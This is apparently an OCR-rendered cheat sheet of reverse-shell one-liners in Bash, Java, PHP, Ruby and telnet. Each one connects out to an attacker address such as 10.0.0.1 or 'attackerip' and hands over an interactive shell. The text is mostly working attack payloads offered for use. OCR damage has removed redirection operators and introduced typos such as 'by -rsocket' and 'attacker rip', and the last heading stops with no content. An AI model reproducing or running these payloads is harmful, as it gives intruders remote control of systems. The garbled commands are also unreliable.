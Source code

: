
### Bash language

```text
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

### Java language

```text
r = Runtime.getRuntime()
p = r.exec( ["/bin/bash","-c","exec 5 /dev/tcp/10.0.0.1/2002;cat &5 |
while read line; do \$line 2 &5 &5; done"] as String[])
p.waitFor()
```

### Php language

```text
php -r '$sock=fsockopen("10.0.0.1", 1234) ;exec("/bin/sh -i &3 &3 2 &3");'
```

### Ruby language

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec
sprintf("/bin/sh -i &%d &%d 2 &%d",f,f,f)'
```

### Ruby language without /bin/sh

```text
by -rsocket -e 'exit if
fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd, " r
") {| io|c.print io.read}end'
```

### Ruby language for windows

```text
ruby -rsocket -e
'c=TCPSocket.new("attackerip","4444");while(crnd=c.gets);IO.popen{cmd,"r" ) {|
io|c.print io.read}end'
```

### Telnet command

```text
rm -f /tmp/p; mknod /tmp/p p && telnet attackerrip 4444 0/tmp/p
--OR--
telnet attacker rip 4444 | /bin/bash | telnet attacker rip 4445
```

### Xterm command
